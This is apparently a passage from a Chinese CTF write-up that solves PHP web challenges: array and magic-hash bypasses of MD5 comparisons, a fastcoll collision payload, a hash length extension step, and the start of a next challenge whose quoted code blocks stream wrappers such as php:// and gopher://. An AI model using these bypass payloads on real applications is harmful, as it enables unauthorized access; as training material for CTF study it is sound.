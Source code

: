 第一个if我们使用数组绕过

```
apple[]=1&banana[]=2
```

第二个if我们使用科学计数法绕过

```
apple[]=1&banana[]=2&appple=QNKCDZO&bananana=240610708
```

第三个if是强类型比较，此时我们需要找到真实的 MD5 值一致的内容, 我们可以使用 fastcoll 工具

```
fastcoll -o a a1
```

```
apple[]=1&banana[]=2&appple=QNKCDZO&bananana=240610708&apppple=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&banananana=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2&name=admin
```

第四个地方使用了哈希长度扩展攻击，我们使用脚本https://github.com/shellfeel/hash-ext-attack

我们需要知道已知字符的长度，我们使用

```
bin2hex(random_bytes(16)) . bin2hex(random_bytes(16)) . bin2hex(random_bytes(16))
```

虽然值不一样但长度是一样的，为96

![image-20240831194632622](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408311946916.png)

得到flag

![image-20240831194656312](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408311946716.png)

### [Week3] 滤个不停

```
<?php
highlight_file(__FILE__);
error_reporting(0);

$incompetent = $_POST['incompetent'];
$Datch = $_POST['Datch'];

if ($incompetent !== 'HelloWorld') {
    die('写出程序员的第一行问候吧！');
}

//这是个什么东东？？？
$required_chars = ['s', 'e', 'v', 'a', 'n', 'x', 'r', 'o'];
$is_valid = true;

foreach ($required_chars as $char) {
    if (strpos($Datch, $char) === false) {
        $is_valid = false;
        break;
    }
}

if ($is_valid) {

    $invalid_patterns = ['php://', 'http://', 'https://', 'ftp://', 'file://' , 'data://', 'gopher://'];
```